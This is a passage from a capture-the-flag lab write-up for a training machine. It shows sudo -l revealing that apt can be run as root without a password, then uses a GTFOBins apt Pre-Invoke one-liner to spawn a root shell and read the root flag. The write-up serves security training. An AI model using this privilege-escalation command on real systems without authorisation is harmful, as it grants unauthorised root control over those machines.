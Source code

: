 ### Sudo privilege

Checking the `sudo` privileges, user `cobra` is allowed to run `apt` as `root`.

```console
cobra@thm-lamp:~$ sudo -l
Matching Defaults entries for cobra on thm-lamp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cobra may run the following commands on thm-lamp:
    (ALL) NOPASSWD: /usr/bin/apt
```

We can use the payload from [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#sudo) to get a shell as root.

```console
cobra@thm-lamp:~$ sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

And read the root flag.

```console
# wc -c root.txt
38 root.txt
```